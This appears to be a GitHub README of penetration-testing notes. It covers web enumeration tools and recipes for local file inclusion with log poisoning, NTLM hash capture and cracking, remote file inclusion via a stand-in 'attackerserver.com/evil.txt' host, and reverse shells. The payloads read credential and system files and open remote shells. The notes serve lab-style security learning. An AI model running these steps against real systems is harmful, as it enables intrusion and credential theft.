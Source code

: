 # Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check `/robots.txt` `/sitemap.xml`\
2.`gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 `wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ` \ 
2.6. Check wappalayzer to check basic info of the page. \
3. `nikto -h $IP`   
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6. Searchsploit technologies for vulnerabiltieis `nmap -p 80,443  --script=*vuln* $IP`

# Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with `?file=index.php ?book=`  (Possible vulnerabilities in source code)
3. book= `../../../../etc/passwd`   (Figure out if the server is hosting on **Window or Apache )
4. `../../../../var/www/html/index.php`  html to confirm log poisoning 
5. Add  `../ ../../../../` and check if the following following files exists.
6. `/etc/passwd`\ `/var/log/mail/USER`\  `/var/log/apache2/access.log`\  `/proc/self/environ`\  `/tmp/sess_ID`\ `/var/lib/php5/sess_ID`\ `/var/log/auth/log`\  
7. `/windows/system32/drivers/etc/hosts` (for **window host**)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, **lets log poision** `../../../../var/log/apache2/access.log` via invalid connection request.
9. Connect to `nc -nv $IP port`.Insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. Check for sucessful log poisioning `../../../../var/log/apache2/access.log&cmd=id`.
11. If you receive command execution, we will insert a reversshell via url encoding. Done. (wrapped and url encode)
12. Use responder to capture. `sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url`. Use john the ripper to match hash. 
13. `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
14. login to window .`evil-winrm -i 10.129.147.34 -u Administrator -p badminton`
## RFI
1. Example Vulerable wesbites: `http://exampe.com/index.php?page=http://attackerserver.com/evil.txt`
2. Host a server with python `python3 -m http.server 8080` with reverseshell code.
## Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2
## Domain/Subdomain 
1. When seeing a contact page, with emails, make note of them, check if they are using some special domain \
2. change /etc/hosts and add the host name
3. gobuster vhost --append-domain -u http://$DomainName -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \

## XSS

## Getting a stable reverse shell
0. Check what language/ technology it is using ex: php, python, perl and possibly the version, to know which revershell to pick.
1. https://www.revshells.com/
2. Payloads. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

